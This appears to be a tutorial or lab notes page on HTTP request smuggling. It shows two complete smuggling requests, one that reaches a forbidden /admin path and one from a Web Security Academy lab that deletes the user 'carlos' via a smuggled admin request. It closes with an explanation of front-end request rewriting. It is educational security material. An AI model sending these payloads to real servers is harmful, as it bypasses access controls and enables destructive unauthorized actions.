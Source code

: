 ## Bypass front-end security controls

Suppose the current user is permitted to access `/home` but not `/admin`. They can bypass this restriction using the following request smuggling attack:

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

```http
POST / HTTP/1.1
Host: 0a3100e404dbfbf6c06bd2de00aa003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

57
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 15

x=1
0

```

## Reveal front-end request rewriting

In many applications, the front-end server performs some rewriting of requests before they are forwarded to the back-end server, typically by adding some additional request headers. For example, the front-end server might:

-   terminate the TLS connection and add some headers describing the protocol and ciphers that were used;
-   add an `X-Forwarded-For` header containing the user's IP address;
-   determine the user's ID based on their session token and add a header identifying the user; or
-   add some sensitive information that is of interest for other attacks.

In some situations, if your smuggled requests are missing some headers that are normally added by the front-end server, then the back-end server might not process the requests in the normal way, resulting in smuggled requests failing to have the intended effects.
